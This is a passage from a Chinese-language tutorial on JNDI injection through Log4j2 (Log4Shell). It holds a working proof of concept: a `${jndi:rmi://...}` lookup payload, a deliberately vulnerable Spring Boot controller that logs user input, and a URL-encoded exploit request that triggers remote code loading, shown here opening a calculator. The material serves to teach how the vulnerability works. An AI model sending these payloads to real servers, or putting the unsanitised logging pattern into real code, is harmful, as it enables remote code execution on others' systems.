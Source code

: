 ```java
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        logger.error("${jndi:rmi://127.0.0.1:1099/hello}");
        Thread.sleep(5000);
    }
}
```
日志中记录的信息为“`${jndi:rmi://127.0.0.1:1099/hello}`”，也就是RMI Server的地址和绑定的名称。<br />执行程序，发现计算器被成功打开。<br />当然，在实际应用中，`logger.error`中记录的日志信息，可能是通过参数获得，比如在Spring Boot中定义如下代码：
```java
@RestController
public class Log4jController {

  private static final Logger logger = LogManager.getLogger(Log4jController.class);

  /**
  * 方便测试，用了get请求
  * @param username 登录名称
  */
  @GetMapping("/a")
  public void log4j(String username){
    System.out.println(username);
    // 打印登录名称
    logger.info(username);
  }
}
```
在浏览器中请求URL为：<br />http://localhost:8080/a?username=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A1099%2Fhello%7D<br />其中username参数的值就是“`${jndi:rmi://127.0.0.1:1099/hello}`”经过`URLEncoder#encode`编码之后的值。此时，访问该URL地址，同样可以将打开计算器。<br />至于Log4j2内部逻辑漏洞触发JNDI调用的部分就不再展开了，感兴趣的朋友在上述实例上进行debug即可看到完整的调用链路。
<a name="L3WW3"></a>
## 小结
JNDI注入事件不仅在Log4j2中发生过，而且在大量其他框架中也有出现。虽然JDNI带来了便利，但同时也带了风险。不过在JDK的高版本中，不进行特殊设置（`com.sun.jndi.rmi.object.trustURLCodebase`设置为`true`），还是无法触发漏洞的。这样也多少让人放心一些。
